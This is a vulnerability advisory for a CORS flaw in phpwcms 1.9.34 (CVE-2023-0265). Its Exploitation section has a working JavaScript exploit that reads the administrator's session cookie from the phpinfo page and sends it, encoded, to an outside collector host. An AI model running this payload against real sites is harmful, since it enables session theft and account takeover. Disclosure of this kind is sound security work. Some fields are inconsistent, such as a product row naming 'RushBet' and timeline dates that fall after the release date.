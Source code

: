 ```yaml
---
slug: advisories/supply/
title: phpwcms 1.9.34 - CORS leads to Account Takeover
authors: Carlos Bello
writer: cbello
codename: supply
product: phpwcms 1.9.34
date: 2023-01-10 09:00 COT
cveid: CVE-2023-0265
severity: 6.0
description: phpwcms 1.9.34    -    CORS leads to Account Takeover
keywords: Fluid Attacks, Security, Vulnerabilities, Phpwcms, CORS
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | phpwcms 1.9.34 - CORS leads to Account Takeover                    |
| **Code name**         | [Supply](https://en.wikipedia.org/wiki/Air_Supply)                 |
| **Product**           | RushBet                                                            |
| **Affected versions** | Version 1.9.34                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-01-10                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Insecure or unset HTTP headers - CORS                                                                                       |
| **Rule**              | [134. Insecure or unset HTTP headers - CORS](https://docs.fluidattacks.com/criteria/vulnerabilities/134)                    |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 6.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0265)                                               |

## Description

Phpwcms version 1.9.34 allows a remote attacker to steal customer
accounts by using a malicious the administrator's session cookie
through the phpinfo page. This is possible because the application
is vulnerable to CORS.

## Vulnerability

The application allows an administrator to view the information
available on the phpinfo page.

![phpinfo-admin](https://user-images.githubusercontent.com/51862990/212206747-a60ce362-4451-45ef-b3bf-0c46eb20d2b2.png)

![phpinfo-page](https://user-images.githubusercontent.com/51862990/212196963-79f14938-45eb-4f18-838c-8d63ee67f365.png)

The problem arises when after several attempts it is discovered
that the page is vulnerable to CORS.

![cors-attemp-1](https://user-images.githubusercontent.com/51862990/212196063-ea8c284e-49a5-4176-8f36-59835c3e1d77.png)

![cors-attemp-2](https://user-images.githubusercontent.com/51862990/212196579-8c694ca9-1921-429d-9937-f302c63bec3a.png)

![cors-attemp-3](https://user-images.githubusercontent.com/51862990/212196624-b219ec90-5982-4ed2-9307-bcb4e86c8528.png)

## Exploitation

To exploit this vulnerability, we must send malicious JS code to
the administrator to send their leaked session cookies through
the phpinfo page to our malicious server.

### Exploit.html

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET','https://retr02332.com/phpwcms/include/inc_act/act_phpinfo.php',true);
    req.setRequestHeader("X-Forwarded-Host", "cf0a73a92d3h9e6btrkgrrw55meurtb7b.oast.online");
    req.withCredentials = true;
    req.send();

    function reqListener() {
        let leak = this.responseText;
        const startString = '<tr><td class="e">HTTP_COOKIE </td><td class="v">';
        const endString = '</td></tr>';

        const startIndex = leak.indexOf(startString) + startString.length;
        const endIndex = leak.indexOf(endString, startIndex);

        const cookies = leak.substring(startIndex, endIndex);
        const encodedCookies = btoa(cookies);

        location='https://cf0a73a92d3h9e6btrkgrrw55meurtb7b.oast.online/phpinfo?leak='+encodedCookies;
    };
</script>
```

## Evidence of exploitation

![explotation-cors](https://user-images.githubusercontent.com/51862990/212198407-9d234504-1d21-4bb4-8805-84b968f3b64c.gif)

![steal-session-cookie](https://user-images.githubusercontent.com/51862990/212198509-08150e9d-e234-41f6-8976-f311458410f5.png)

![account-takeover-success](https://user-images.githubusercontent.com/51862990/212206133-dc21429e-cd1f-4cc1-a838-f751c42059ef.png)

## Our security policy

We have reserved the CVE-2023-0265 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: phpwcms 1.9.34

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/slackero/phpwcms>

## Timeline

<time-lapse
  discovered="2023-12-01"
  contacted="2023-12-01"
  replied="2023-12-01"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
